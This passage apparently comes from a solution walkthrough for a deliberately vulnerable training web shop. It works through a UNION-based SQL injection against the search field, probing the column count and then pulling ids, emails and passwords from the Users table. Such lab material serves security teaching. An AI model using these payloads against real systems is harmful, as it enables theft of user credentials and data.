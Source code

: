    1. `')) UNION SELECT '1' FROM Users--` fails with `number of result
      columns` error
   2. `')) UNION SELECT '1', '2' FROM Users--` fails with `number of
      result columns` error
   3. `')) UNION SELECT '1', '2', '3' FROM Users--` fails with `number
      of result columns` error
   4. (...)
   5. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7' FROM Users--`
      _still fails_ with `number of result columns` error
   6. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8' FROM
      Users--` shows a _Search Result_ with an interesting extra row at
      the bottom.

      ![UNION SELECT attack with fixed columns](img/union_select-success.png)
7. Next you get rid of the unwanted product results changing the query
   into something like `qwert')) UNION SELECT '1', '2', '3', '4', '5',
   '6', '7', '8' FROM Users--`

   ![UNION SELECT cleaned attack result](img/union_select-no_products.png)
8. The last step is to replace the _visible_ fixed values with correct
   column names. You could guess those **or** derive them from the
   RESTful API results **or** remember them from previously seen SQL
   errors while attacking the _Login_ form.
9. Searching for `qwert')) UNION SELECT '1', id, email, password, '5',
   '6', '7', '8' FROM Users--` solves the challenge giving you a the
   list of all user data in convenient JSON format.
